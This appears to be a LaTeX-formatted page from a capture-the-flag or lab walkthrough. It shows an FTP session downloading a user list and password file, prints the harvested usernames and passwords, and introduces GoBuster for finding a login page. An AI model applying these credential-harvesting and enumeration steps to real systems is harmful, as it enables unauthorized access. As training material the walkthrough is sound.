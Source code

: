\documentclass[conference]{IEEEtran}
\begin{document}
\begin{scriptsize}
\begin{verbatim}
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||44599|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |************************************************************************|    33        0.39 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.20 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||42021|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |************************************************************************|    62        0.81 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.34 KiB/s)
ftp>
\end{verbatim}
\end{scriptsize}

Once we have done that, we exit the ftp server and we can use the "cat" command to display the contents of both files.

\begin{scriptsize}
\begin{verbatim}
root@ghost:~# cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin

root@ghost:~# cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
\end{verbatim}
\end{scriptsize}


Now, we apparently have the login info something. We will now use GoBuster\cite{gobuster}\cite{seclists}, to check if there are any directories that have a login on the webpage.
\end{document}

